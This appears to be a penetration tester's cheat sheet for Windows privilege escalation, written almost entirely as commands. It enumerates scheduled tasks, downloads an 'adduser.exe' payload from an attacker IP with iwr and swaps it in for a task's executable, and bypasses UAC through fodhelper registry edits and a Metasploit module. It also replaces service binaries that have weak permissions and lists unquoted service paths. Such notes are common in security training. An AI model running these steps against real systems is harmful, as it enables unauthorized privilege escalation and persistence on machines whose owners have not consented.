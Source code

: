 ##### Scheduled Tasks
```
schtasks /query /fo LIST /v
schtasks /query /v /fo list | findstr /i "backup.exe"
schtasks /query /fo LIST /v /tn "backup runner(taskname)" ----for retrieve full task info
Get-ScheduledTask | Where-Object {$_.TaskName -like '*backup*'}
schtasks /query /v /fo CSV | ConvertFrom-Csv | Select 'Author', 'TaskName', 'Task To Run', 'Run As User', 'Next Run Time','Schedule', 'Schedule Type', 'Repeat: Every'

icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
iwr -Uri http://192.168.119.3/adduser.exe -Outfile BackendCacheCleanup.exe
move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
move .\BackendCacheCleanup.exe .\Pictures\
```

##### Enumerating Unmounted Disks
```
mountvol
```

##### Enumerating Device Drivers and Kernel Modules
```
1. driverquery /v /FO Table  
2. Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer
```
##### Bypass UAC
```
1. check C:\Windows\System32\fodhelper.exe
2. REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
3. REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
4. REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
5. run fodhelper.exe, whoami /groups
```

```
use exploit/windows/local/bypassuac_eventvwr
set session 1
set target 1(x64,0=x86)
Note to set payload the same arch with session 1's payload，set lhost and lport same with session 1
```

##### Insecure File Permissions
```
1. Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'} # look for services with path in Program Files
2. icacls "service path" # check if current user has permission to replace file with malicious one
3. replace malicious exe with service executable
4. Get-WmiObject -Class Win32_Service -Property StartMode -Filter "Name='Service Name'" 
5. whoami /priv #check out shutdown privileges of user
```

##### Unquoted Service Paths
To list all unquoted service paths (minus built-in Windows services)
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """
```
